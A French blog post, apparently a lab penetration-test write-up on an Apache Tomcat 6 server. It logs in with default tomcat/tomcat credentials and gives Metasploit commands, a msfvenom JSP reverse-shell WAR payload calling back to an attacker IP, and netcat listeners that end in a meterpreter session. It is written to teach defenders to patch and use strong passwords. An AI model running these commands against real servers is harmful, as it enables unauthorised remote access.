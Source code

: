 ```yaml
---
layout: post
title:  "Test d'intrusion sur un serveur apache tomcat"
date:   2021-10-19
last-update: 
categories: Linux
tags: shell ssh linux tomcat
image: /assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG 
description: cet article présente un test d'intrusion sur un serveur apache tomcat dans l'objectif de sensibiliser le lecteur aux différentes vulnérabilités possibles pour qu'il s'en prémunisse.
---
```




>Ce write-up présente les possibles vulnérabilités d'un serveur Apache tomcat 6.18 afin de sensibiliser l'utilisateur à certaines bonnes pratiques lors la configuration d'un serveur apache tomcat, notamment :
>
>-Tenir à jour sa version tomcat
>
>-Utiliser des mots de passes forts
>
>Tous les exemples montrés sur cet article l'ont été sur des machines de laboratoires.
>



## Introduction

Lors d'un laboratoire, après avoir avoir scanné le réseau avec nmap, j'ai pu voir qu'un serveur tomcat tournait sur le port 8080 à l'adresse <IP>.

![tomcat-scan]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-scan.PNG)



 En accédant depuis le navigateur, j'accédais à la page d'accueil du serveur. En rouge, deux adresses url intéressantes car elles permettent d'accéder à l'interface d'administration du serveur.

![tomcat-index]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-index.PNG)

## Tentative

Avant de trouver la bonne solution, quelques tentatives ont été réalisées avec metasploit

### tomcat_enum

Ce module énumère les noms d'utilisateurs apache en envoyant des requête malformées au j_security_check.

Version vulnérable : 4.1.0 - 4.1.39, 5.5.0 - 5.5.27, and 6.0.0 - 6.0.18

Les nouvelles versions de Tomcat ne sont pas vulnérable

```
use auxiliary/scanner/http/tomcat_enum
set RHOST <target IP:PORT> 
run
```

Source : 

- https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_enum/
- https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples



#### Résultat 

L'attaque n'a pas fonctionnée dans mon cas

### dir_scanner

Le scanner de répertoire permet de scanner un serveur web afin de trouver des répertoires intéressants. 

```
use auxiliary/scanner/http/dir_scanner
SET RHOST <target IP>
set RPOT <traget PORT>
run
```

Source :

[www.offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

#### Résultat 

L'exploit n'a pas trouvé de répertoires sensibles.

### Brute-force login

Le module tomcat_mgr_login permet de brute-forcer la page de login du manager :

Source :

-  [www.rapid7.com - http/tomcat_mgr_login/](https://www.rapid7.com/db/modules/auxiliary/scanner/http/tomcat_mgr_login/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)



## Solution



Sur la page http, on peut voir un lien url vers la page manager demandant un mot de passe et un nom d'utilisateur.

### "Brute-force" manuel du login

Sur ce github, on peut trouver tout une liste de mot de passe habituel/par défaut : [https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown](https://github.com/netbiosX/Default-Credentials/blob/master/Apache-Tomcat-Default-Passwords.mdown)

En cherchant également sur internet, je suis tombé sur plusieurs articles qui utilisaient la pair tomcat /tomcat comme nom d'utilisateur / mot de passe.

En essayant sur la page => bingo.

On arrive ainsi sur la page manager

![tomcat-manager]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-manager.PNG)



### shell - Upload war

Une fois sur la page de manager, on peut tenter d'obtenir un reverse shell un uploadant un fichier war.

#### Tentative ratée

Ayant mal configuré mon metasploit,t j'ai crû que les modules  metasploit ne fonctionnaient pas. J'obtenais l'erreur suivante : 

> Handler failed to bind <ip>

 J'ai donc tenté de "crafté" moi-même mon war en passant par `msfvenom`

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.40.122 LPORT=9998 -f war -o rshell3.war
```

Puis après avoir cliqué sur le fichier uploadé dans le manager, j'ai lancé avec metasploit et netcat des serveurs pour "écouter"

- metasploit

```bash
use exploit/multi/handler
set payload java/jsp_shell_reverse_tcp
set LHOST 10.10.40.122
set LPORT 9999
exploit
```

Documentation officielle : [offensive-security.com - scanner-http-auxiliary-modules/](https://www.offensive-security.com/metasploit-unleashed/scanner-http-auxiliary-modules/)

- netcat

```bash
nc -lvp 1234
```

J'ai probablement mal configuré mes attaques car celles-ci ne fonctionnaient pas



#### Source 

Cet article explique comment créer son propre payload avec MSFVenom

https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/

#### Tentative réussie

J'ai retenté avec metasploit où j'ai découvert que je n'avais pas configuré mon LHOST et c'était alors mon IP habituel au lieu de celle du VPN qui était prise. C'est pour cela que j'avais l'erreur 

> Handler failed to bind <ip>

```bash
use exploit/multi/http/tomcat_mgr_upload
set RHOSTS <target IP>
set RPORT 8080
set LHOST <IP>
set HttpUsername tomcat
set HttpPassword tomcat
exploit
```

Il suffit ensuite d'attendre quelques instants pour obtenir une session meterpreter et le tour est joué :)

![tomcat-meterpreter]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/tomcat-meterpreter.png)

Sur le manager, on peut constater qu'un fichier a été uploadé

![manager-file-upload]({{site.url_complet}}/assets/article/pentest/tomcat-metasploit/manager-file-upload.png)



Source : 

[rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)



## Sources 

- [https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/](https://www.certilience.fr/2019/03/tomcat-exploit-variant-host-manager/)
- [https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/](https://vk9-sec.com/apache-tomcat-manager-war-reverse-shell/)
- [https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote](https://charlesreid1.com/wiki/Metasploitable/Apache/Tomcat_and_Coyote)
- Plusieurs attaques sur tomcat : [book.hacktricks.xyz - tomcat#examples](https://book.hacktricks.xyz/pentesting/pentesting-web/tomcat#examples)
- Documentation officielle metasploit : [rapid7.com - http/tomcat_mgr_upload/](https://www.rapid7.com/db/modules/exploit/multi/http/tomcat_mgr_upload/)